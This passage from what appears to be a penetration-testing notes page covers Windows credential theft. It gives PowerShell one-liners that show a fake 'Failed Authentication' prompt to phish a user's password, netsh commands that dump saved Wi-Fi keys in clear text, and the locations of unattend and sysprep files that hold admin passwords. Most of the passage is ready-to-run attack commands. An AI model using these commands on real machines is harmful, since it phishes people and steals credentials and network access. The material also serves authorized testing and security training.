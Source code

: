 ```powershell
powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName); $cred.getnetworkcredential().password"
powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+'admin',[Environment]::UserDomainName); $cred.getnetworkcredential().password"
```

![](../../../.gitbook/assets/ps\_phishing\_theft\_cred.png)

If the user enters the credentials, we will see it in our console.

## Others

{% tabs %}
{% tab title="Wifi Passwords" %}
**Viewing Saved Wireless Networks**

If we obtain local admin access to a user's workstation with a wireless card, we can list out any wireless networks they have recently connected to.

```shell
netsh wlan show profile
```

**Retrieving Saved Wireless Passwords**

Depending on the network configuration, we can retrieve the pre-shared key (`Key Content` below) and potentially access the target network. While rare, we may encounter this during an engagement and use this access to jump onto a separate wireless network and gain access to additional resources.

```bash
netsh wlan show profile <PROFILE> key=clear
```
{% endtab %}

{% tab title="Unattended Installs" %}
Unattended installations allow administrators to deploy Windows without any intervention. However, if they do not clean up after this process, an XML file called Unattend is left on the local system, full of configuration settings and possibly local account (e.g., administrator) settings. The passwords in the `unattend.xml` are stored in plain text or base64 encoded. Unattend files are usually found in these folders:

```bash
C:\Windows\Panther\
C:\Windows\Panther\Unattend\
C:\Windows\System32\
C:\Windows\System32\sysprep\
c:\sysprep\
```

Common file names:

```bash
# Note: The passwords in these files may be base64 encoded:
unattend.xml
Unattended.xml
unattended.xml
sysprep.xml
sysprep.inf
```
{% endtab %}
